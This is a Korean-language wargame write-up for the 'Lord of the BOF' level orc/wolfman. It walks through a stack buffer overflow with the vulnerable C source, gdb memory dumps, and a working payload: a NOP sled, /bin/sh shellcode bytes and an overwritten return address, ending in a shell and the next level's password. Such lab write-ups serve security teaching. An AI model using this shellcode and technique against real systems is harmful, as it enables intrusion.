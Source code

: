 ============================================================================================================
[lob] orc
============================================================================================================


.. uml::
    
    @startuml

    start

    :Source Analysis;

    :Memory Structure;

    :Segmentation fault;

    :argv[1] 주소 확인;

    :RET 주소를 argv[1] 주소로 변경하여 공격 진행;
    
    stop

    @enduml


|

Source Analysis
============================================================================================================

해당 문제 소스코드는 다음과 같습니다.

.. code-block:: c

    /*
        The Lord of the BOF : The Fellowship of the BOF
        - wolfman
        - egghunter + buffer hunter
    */

    #include <stdio.h>
    #include <stdlib.h>

    extern char **environ;

    main(int argc, char *argv[])
    {
        char buffer[40];
        int i;

        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }

    // egghunter
        for(i=0; environ[i]; i++)
            memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
            printf("stack is still your friend.\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
    }

|

Memory Structure
============================================================================================================

스택 메모리 공간에 다음과 같이 들어가게 됩니다.

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- strcpy
    SFP     (4byte)
    RET     (4byte)
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

Segmentation fault
============================================================================================================

strcpy로 인해 입력한 값이 버퍼보다 클 경우 오버플로우가 발생됩니다.

※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행해야 합니다.

.. code-block:: console

    $ ./wolfman `python -c 'print "a"*47'`

    stack is still your friend.

    $ ./wolfman `python -c 'print "a"*47+"\xbf"'`

    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
    Segmentation fault


|

exploit
============================================================================================================

argv[1] 주소 확인
------------------------------------------------------------------------------------------------------------

앞의 조건에 argv[1][47]값이 \\xbf인지 확인하기 때문에, gdb를 이용하여 argv[1]이 가리키는 주소를 찾습니다.

.. code-block:: console

    (gdb) b *main
    Breakpoint 1 at 0x8048500

    (gdb) r `python -c 'print "a"*47+"\xbf"'`
    Starting program: /home/orc/wolfman1 `python -c 'print "a"*47+"\xbf"'`
    /bin/bash: /home/goblin/.bashrc: Permission denied

    Breakpoint 1, 0x8048500 in main ()

    (gdb) stepi
    0x8048501 in main ()

    (gdb) i reg $esp
    esp            0xbffffae8       -1073743128

    (gdb) i reg $ebp
    ebp            0xbffffb08       -1073743096

    (gdb) x/100x $esp

    ==========================================================================
    0xbffffae8:     0xbffffb08      0x400309cb      0x00000002      0xbffffb34
    0xbffffaf8:     0xbffffb40      0x40013868      0x00000002      0x08048450
    0xbffffb08:     0x00000000      0x08048471      0x08048500      0x00000002
    0xbffffb18:     0xbffffb34      0x08048390      0x0804861c      0x4000ae60
    0xbffffb28:     0xbffffb2c      0x40013e90      0x00000002      0xbffffc2e
    0xbffffb38:     0xbffffc43      0x00000000      0xbffffc74      0xbffffc96
    0xbffffb48:     0xbffffca0      0xbffffcae      0xbffffccd      0xbffffcd9
    0xbffffb58:     0xbffffcf2      0xbffffd0e      0xbffffd2d      0xbffffd38
    0xbffffb68:     0xbffffd46      0xbffffd88      0xbffffd97      0xbffffdac
    0xbffffb78:     0xbffffdbc      0xbffffdc5      0xbffffde3      0xbffffdee
    0xbffffb88:     0xbffffdff      0xbffffe0d      0xbffffe1c      0xbffffe24
    0xbffffb98:     0x00000000      0x00000003      0x08048034      0x00000004
    0xbffffba8:     0x00000020      0x00000005      0x00000006      0x00000006
    0xbffffbb8:     0x00001000      0x00000007      0x40000000      0x00000008
    0xbffffbc8:     0x00000000      0x00000009      0x08048450      0x0000000b
    0xbffffbd8:     0x000001f8      0x0000000c      0x000001f8      0x0000000d
    0xbffffbe8:     0x000001f8      0x0000000e      0x000001f8      0x00000010
    0xbffffbf8:     0x0fabfbff      0x0000000f      0xbffffc29      0x00000000
    0xbffffc08:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffc18:     0x00000000      0x00000000      0x00000000      0x00000000
    0xbffffc28:     0x38366900      0x682f0036      0x2f656d6f      0x2f63726f
    0xbffffc38:     0x6f772f2e      0x616d666c      0x6100336e      0x61616161
                                                      ^               ^
    0xbffffc48:     0x61616161      0x61616161      0x61616161      0x61616161
                      ^               ^               ^ argv[1] = 0xbffffc53
    0xbffffc58:     0x61616161      0x61616161      0x61616161      0x61616161
    0xbffffc68:     0x61616161      0x61616161      0x00bf6161      0x5353454c
    ==========================================================================

|

RET 주소를 argv[1] 주소로 변경하여 공격 진행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ================
    LOW     
    ----------------
    Buffer  (40byte) <- "\x90"*19 + shellcode
    SFP     (4byte)  <- shellcode
    RET     (4byte)  <- argv[1] address
    argc    (4byte)
    argv    (4byte)
    ----------------
    HIGH    
    ================

|

오버플로우시 RET 주소를 argv[1]의 주소로 변경하여 해당 쉘코드가 실행되도록 합니다. argv[1]의 최초 주소값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있습니다.

nop (19 byte) + shellcode (25 byte) + argv[1] address

.. code-block:: console

    $ ./wolfman `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x43\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀L▒▒▒
    Segmentation fault

    $ ./wolfman `python -c 'print "\x90"*19 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\x53\xfc\xff\xbf"'`
    ▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
                                           ̀S▒▒▒

    bash$ whoami
    wolfman
    bash$ my-pass
    euid = 505
    love eyuna








